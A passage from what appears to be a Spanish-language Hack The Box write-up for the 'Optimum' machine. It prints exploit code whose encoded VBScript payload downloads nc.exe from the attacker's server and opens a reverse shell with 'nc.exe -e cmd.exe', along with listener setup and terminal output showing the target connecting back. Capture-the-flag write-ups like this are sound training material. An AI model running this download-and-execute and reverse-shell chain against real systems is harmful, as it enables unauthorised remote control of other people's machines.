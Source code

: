 ```python
	vbs = "C:\Users\Public\script.vbs|dim%20xHttp%3A%20Set%20xHttp%20%3D%20createobject(%22Microsoft.XMLHTTP%22)%0D%0Adim%20bStrm%3A%20Set%20bStrm%20%3D%20createobject(%22Adodb.Stream%22)%0D%0AxHttp.Open%20%22GET%22%2C%20%22http%3A%2F%2F"+ip_addr+"%2Fnc.exe%22%2C%20False%0D%0AxHttp.Send%0D%0A%0D%0Awith%20bStrm%0D%0A%20%20%20%20.type%20%3D%201%20%27%2F%2Fbinary%0D%0A%20%20%20%20.open%0D%0A%20%20%20%20.write%20xHttp.responseBody%0D%0A%20%20%20%20.savetofile%20%22C%3A%5CUsers%5CPublic%5Cnc.exe%22%2C%202%20%27%2F%2Foverwrite%0D%0Aend%20with"
	save= "save|" + vbs
	vbs2 = "cscript.exe%20C%3A%5CUsers%5CPublic%5Cscript.vbs"
	exe= "exec|"+vbs2
	vbs3 = "C%3A%5CUsers%5CPublic%5Cnc.exe%20-e%20cmd.exe%20"+ip_addr+"%20"+local_port
	exe1= "exec|"+vbs3
	script_create()
	execute_script()
	nc_run()
except:
	print """[.]Something went wrong..!
	Usage is :[.] python exploit.py <Target IP address>  <Target Port Number>
	Don't forgot to change the Local IP address and Port number on the script"""
```

Antes de ejecutar el script, lo primero que debemos hacer es alojar un servidor web en nuestra máquina para enviar el binario de `nc.exe` a la máquina del objetivo y de esta forma tener una shell. Para esto vamos a usar Python.

```bash
┌─[root@parrot]─[/home/nicolasmira101/Documents/Hack-the-box/Maquinas/Optimum]
└──╼ #python3 -m http.server 80                                                                         
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Ahora, vamos a descargar el archivo `nc.exe` en el siguiente [link](https://eternallybored.org/misc/netcat/) y procedemos a iniciar una sesión en netcat en nuestra máquina.

```bash
┌─[root@parrot]─[/home/nicolasmira101/Documents/Hack-the-box/Maquinas/Optimum]
└──╼ #rlwrap nc -nlvp 443                                                                               
listening on [any] 443 ...
```
Para ejecutar el script correctamente debemos cambiar las siguientes variables

```python
ip_addr = "10.10.14.15" # Dirección IP de la máquina del atacante

local_port = "443" # Puerto que hayamos establecido anteriormente en el listener de nc
```

Procedemos a ejecutar el script de la siguiente manera. Cabe aclarar que se debe ejecutar 2 veces, ya que en la primera se carga el binario `nc.exe` y en la segunda vez sí nos entabla la shell.

```bash
┌─[root@parrot]─[/home/nicolasmira101/Documents/Hack-the-box/Maquinas/Optimum]
└──╼ #python exploit.py 10.10.10.8 80

┌─[root@parrot]─[/home/nicolasmira101/Documents/Hack-the-box/Maquinas/Optimum]
└──╼ #python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.8 - - [29/Jun/2020 13:51:24] "GET /nc.exe HTTP/1.1" 200 -

┌─[root@parrot]─[/home/nicolasmira101/Documents/Hack-the-box/Maquinas/Optimum]
└──╼ #python exploit.py 10.10.10.8 80

┌─[root@parrot]─[/home/nicolasmira101/Documents/Hack-the-box/Maquinas/Optimum]
└──╼ #rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.8] 49162
```